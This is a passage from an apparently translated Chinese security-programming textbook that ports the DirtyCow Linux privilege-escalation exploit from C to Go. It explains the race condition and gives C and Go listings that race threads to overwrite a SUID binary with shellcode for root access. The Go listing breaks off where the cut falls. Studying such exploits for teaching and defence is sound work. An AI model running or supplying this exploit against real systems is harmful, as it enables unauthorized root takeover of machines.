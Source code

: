```go
    }
    proc.Wait()
    os.Exit(0) 
}
```

清单 9-11: Go中的 _waitForWrite\(\)_ 函数

在这两种情况下，代码都定义了一个无限循环，该循环监视SUID二进制文件的变动。C中使用 `memcmp()` shellcode是否已写入目标，而Go代码使用 `bytes.Compare()`。当shellcode出现时，就会知道该漏洞成功地覆盖了文件。然后跳出无限循环，向正在运行的线程发出信号，表示它们现在可以停止了。与竞争条件的代码一样，Go版本通过通道来实现这一点，而C版本使用一个整数。最后，执行的可能是函数中最好的部分：SUID目标文件现在包含了恶意代码。Go代码有点冗长，因为需要传入与stdin, stdout和stderr对应的属性：分别指向打开输入文件、输出文件和错误文件描述符的文件指针。

现在看一下 `main()` 函数，它调用前面执行此漏洞所需的函数。清单9-12是C代码，清单9-13是Go代码。

```c
int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n"); 
    printf("Backing up %s.. to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary); 
    system(backup);

    f = open(suid_binary,O_RDONLY); 
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size]; 
    memset(payload, 0x90, st.st_size); 
    memcpy(payload, sc, sc_len+1);

    map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0); 

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary); 
    pthread_create(&pth2, NULL, &procselfmemThread, payload); 
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0; 
}
```

清单 9-12: C中的 _main\(\)_ 函数

```go
func main() {
    fmt.Println("DirtyCow root privilege escalation") 
    fmt.Printf("Backing up %s.. to /tmp/bak\n", SuidBinary)

    backup := exec.Command("cp", SuidBinary, "/tmp/bak") 
    if err := backup.Run(); err != nil {
        log.Fatal(err) 
    }

    f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600) 
    if err != nil {
        log.Fatal(err) 
    }
    st, err := f.Stat() 
    if err != nil {
```